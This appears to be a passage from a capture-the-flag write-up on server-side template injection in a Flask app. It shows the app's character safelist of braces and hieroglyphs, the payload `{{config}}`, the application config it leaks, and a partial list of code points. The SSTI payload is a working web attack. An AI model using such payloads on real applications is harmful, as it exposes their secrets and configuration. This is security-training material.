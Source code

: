 
```python
kings_safelist = ['{','}', '𓁹', '𓆣','𓀀', '𓀁', '𓀂', '𓀃', '𓀄', '𓀅', '𓀆', '𓀇', '𓀈', '𓀉', '𓀊', '𓀐', '𓀑', '𓀒', '𓀓', '𓀔', '𓀕', '𓀖', '𓀗', '𓀘', '𓀙', '𓀚', '𓀛', '𓀜', '𓀝', '𓀞', '𓀟',
'𓀠', '𓀡', '𓀢', '𓀣', '𓀤', '𓀥', '𓀦', '𓀧', '𓀨', '𓀩', '𓀪', '𓀫', '𓀬', '𓀭', '𓀮', '𓀯',
'𓀰', '𓀱', '𓀲', '𓀳', '𓀴', '𓀵', '𓀶', '𓀷', '𓀸', '𓀹', '𓀺', '𓀻']

name = ''.join([char for char in name if char.isalnum() or char in kings_safelist])
```


We can use curly braces and alphanumeric characters, e.g. `{{config}}`.


```json
{'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}
```


Tried to check `{{settings}}` as well, but no output.

Converting the filter list to decimals, we'll see the size difference of the characters.


```json
{
    "{": 123,
    "}": 125,
    "𓁹": 77945,
    "𓆣": 78243,
    "𓀀": 77824,
    "𓀁": 77825,
    "𓀂": 77826,
    "𓀃": 77827,
    "𓀄": 77828,
    "𓀅": 77829,
    "𓀆": 77830,
    "𓀇": 77831,
    "𓀈": 77832,
    "𓀉": 77833,
    "𓀊": 77834,
    "𓀐": 77840,
    "𓀑": 77841,
    "𓀒": 77842,
    "𓀓": 77843,
    "𓀔": 77844,
    "𓀕": 77845,
    "𓀖": 77846,
    "𓀗": 77847,
    "𓀘": 77848,
    "𓀙": 77849,
    "𓀚": 77850,
    "𓀛": 77851,
    "𓀜": 77852,
    "𓀝": 77853,
    "𓀞": 77854,
    "𓀟": 77855,
    "𓀠": 77856,
    "𓀡": 77857,
    "𓀢": 77858,
    "𓀣": 77859,
    "𓀤": 77860,
    "𓀥": 77861,
```